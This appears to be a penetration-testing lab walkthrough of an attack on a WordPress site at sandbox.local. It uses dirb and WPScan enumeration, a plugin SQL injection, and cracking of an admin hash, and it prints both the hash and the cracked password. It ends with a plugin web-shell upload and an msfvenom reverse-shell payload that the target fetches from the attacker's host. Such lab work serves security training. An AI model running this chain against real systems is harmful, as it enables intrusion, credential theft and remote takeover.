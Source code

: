 # Enumerating Web App
We first do a directory scan/brute force to discover potentially sensitive files
```bash
dirb http://sandbox.local
```

We discovered several common WordPress directories, which will not reveal much. We use **WPScan** which is a WordPress Vulnerability scanner.
```bash
wpscan --url sandbox.local --enumerate ap,at,cb,dbe
```

**ap** - all plugins
**at** - all themes
**cb** - config backups
**dbe** - Db exports

From the **WPScan**, we discovered these plugins:
1. elementor
2. ocean-extra
3. wp-survey-and-poll

We search for exploits for the above plugins
```bash
searchsploit elementor
searchsploit ocean-extra
searchsploit wp-survey-and-poll

searchsploit ocean

searchsploit survey poll
```

We can make use of the survey poll SQL injection exploit to get the admin username (wp_ajla_admin) and password hash.

Saving the hash to a txt file, we can crack it using *John the Ripper*.
```bash
# Saving password hash to a file
echo '$P$BfBIi66MsPQgzmvYsUzwjc5vSx9L6i/' > pass.txt

john --wordlist=/usr/share/wordlists/rockyou.txt pass.txt

# !love29jan2006!
```

We can now log into the Admin dashboard interface.

# Enumerating the Admin interface
We can look through the Admin interface to discover the PHP version the server is running, as well as the Database IP.

Since we have administrative access, we can actually look to install PHP plugins, which can give us a PHP reverse shell or code execution.

One such plugin is *seclists*.
```bash
sudo apt install seclists

# Seclist directory
cd /usr/share/seclists/Web-Shells/WordPress
```

We can make use of **plugin-shell.php** to execute commands on the system.

# Obtaining a shell
Since WordPress expects plugins to be in a zip file, we package it as such.
```bash
cd /usr/share/seclists/Web-Shells/WordPress

sudo zip plugin-shell.zip plugin-shell.php
```

On the Admin interface, we can upload the plugin to be installed. Select the zipped pacakge.

Once installed, we can test the shell to see if it works by passing a cmd parameter from our Kali machine.
```bash
curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=whoami
```

We can use Meterpreter to generate an ELF reverse shell payload since we know that the target is running Linux.

In order for the target to download the payload, we can host the generated payload on our Kali host with a Python http server.  Once downloaded, we can use the code execution to execute the payload and form a reverse shell.
```bash
# Generating payload
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<KALI-HOST> LPORT=443 -f elf > shell.elf

# Hosting file on Python HTTP server
sudo python3 -m http.server 80

# Using code execution to wget the payload from our Kali machine
curl http://sandbox.local/wp-content/plugins/plugin-shell/plugin-shell.php?cmd=wget%20http://<KALI>/shell.elf


```




